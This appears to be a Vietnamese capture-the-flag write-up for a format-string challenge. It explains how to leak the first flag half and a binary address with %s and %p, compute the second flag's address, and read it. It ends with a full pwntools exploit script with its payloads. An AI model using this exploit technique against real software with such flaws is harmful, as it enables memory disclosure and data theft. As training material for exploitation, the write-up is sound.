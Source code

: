 # Kết hợp %p và %s
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/a6d1dbd1-0f21-4947-bb85-d266c2f9a4f8)
- Nhìn vào bài thì ta có thể thấy đc 2 lỗi fmt như sau , cùng vào gdb check xem hướng giải sẽ thực hiện như nào nha.
- ![image](https://github.com/NTDtrytofullstack/training/assets/130078745/a59d77c0-b9a1-455c-bbca-26a4cbd5004c)
- Check xong gdb thì ta có thể thấy flag của chúng ta đc chia thành 2 phần, phần đầu ta có thể sử dụng %s là có thể leak ra đc nhưng phần sau thì có vẻ khó hơn 1 chút. Thì ở đây ta có 1 cách như sau đó chính là ở fmtstr thứ nhất ta sẽ leak ra phần đầu của flag và ở lần fmtstr thứ 2 ta sẽ truyền vào đấy địa chỉ của phần flag còn lại và sau đó ta sẽ xài %s để leak đoạn flag cuối cùng , nhưng mà để có thể leak ra đc địa chỉ flag 2 ta cần leak ra đc địa chỉ của binary , thì ở đây có 1 điều mà ta nên biết địa chỉ save rip sẽ luôn là địa chỉ của binary và nó luôn cố định là vậy (trường hợp này binary tĩnh và ta cũng phải nối sever nữa, nên ko thể tùy tiện search địa chỉ flag2 rồi nhét vào đc :))) ).
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/7cf37504-c953-4f9b-8be7-0aed67c67a0e)
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/6b2b4589-ffa3-4c13-9938-b037e3e180fc)
- ta đã lấy đc flag1 rồi bước tiếp là leak địa chỉ binary , tính địa chỉ base và tìm ra địa chỉ flag2.
- ![image](https://github.com/NTDtrytofullstack/training/assets/130078745/c6d8d0fd-2a24-4ca2-8984-a112d567e9fe)
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/f4c5d6cc-6aff-481c-8360-ad217e3ca485)
-Ta đã lấy đc địa chỉ binary , tiếp theo là nhận nó thôi.
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/f2fd6a8b-a7e6-40e4-8bb4-31d6c77f853e)
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/001c47d7-69d3-49b3-a11b-43b920299928)
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/98202613-2c26-4e9f-b3fc-5bbc43f4b83a)
![image](https://github.com/NTDtrytofullstack/training/assets/130078745/c7215965-89a4-4a26-a39b-869fa222df91)
## Source
```
#!/usr/bin/python3
from pwn import *
exe = ELF('./fmtstr3', checksec=False)

p=process(exe.path)
flag = b''

#gdb.attach(p, gdbscript = '''
#b*get_credential+115
#c
#)
#input()
payload = b'%8$s%17$p'
p.sendlineafter(b'name: ',payload)
p.recvuntil(b'Hello ')
flag+= p.recvuntil(b'0x', drop=True) #nhận đoạn flag và bỏ ko nhận 0x
exe_leak = int(p.recvline()[:-1],16) #nhận đoạn địa chỉ binary
exe.address = exe_leak - 0x14e6
flag2_addr = exe.address + 0x4060 #lấy địa chỉ flag2 trừ cho địa chỉ base là ta có thể tính đc địa chỉ flag2

log.info("Flag 1: " + flag.decode()) #recv nhận kiểu byte còn log.info in ra kiểu char cho nên xài decode để ko bị lỗi
log.info("Exe leak: " + hex(exe_leak))
log.info("Exe base: " + hex(exe.address))
log.info("Flag 2 address: "+ hex(flag2_addr))
payload = b'%13$sAAA' #ở đây ta phải thêm 3 byte A cho đủ 8 byte để khi ta nhập địa chỉ flag2 nó là 1 địa chỉ hợp lệ

payload += p64(flag2_addr)
p.sendlineafter(b'greeting: ',payload)
flag +=p.recvuntil(b'}')
log.info("Flag " + flag.decode())
p.interactive()
```



